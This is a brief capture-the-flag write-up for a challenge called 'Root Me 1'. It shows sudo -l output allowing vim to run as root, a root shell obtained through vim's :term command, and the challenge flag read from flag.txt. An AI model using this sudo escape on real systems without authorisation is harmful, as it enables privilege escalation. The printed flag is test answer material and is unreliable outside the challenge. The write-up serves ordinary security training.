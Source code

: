 # 5 - Root Me 1

We check if there are any sudo commands that user is allowed to execute using the command:
sudo -l

```
Matching Defaults entries for user on 730d3d393080:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on 730d3d393080:
    (root) /usr/bin/vim
```
    
We find that the user can run `sudo vim`

So we run `sudo vim` and use `:term` to get a terminal window in vim which is controlled by root

Now we have sudo privileges we can use `chmod +x flag.txt`

and read the `flag.txt` file by using `cat flag.txt`

which gives us the flag

ICTF{v1m_1s_b3tt3r_th4n_3m4c5_4nd_n4n0_h4h4h4}
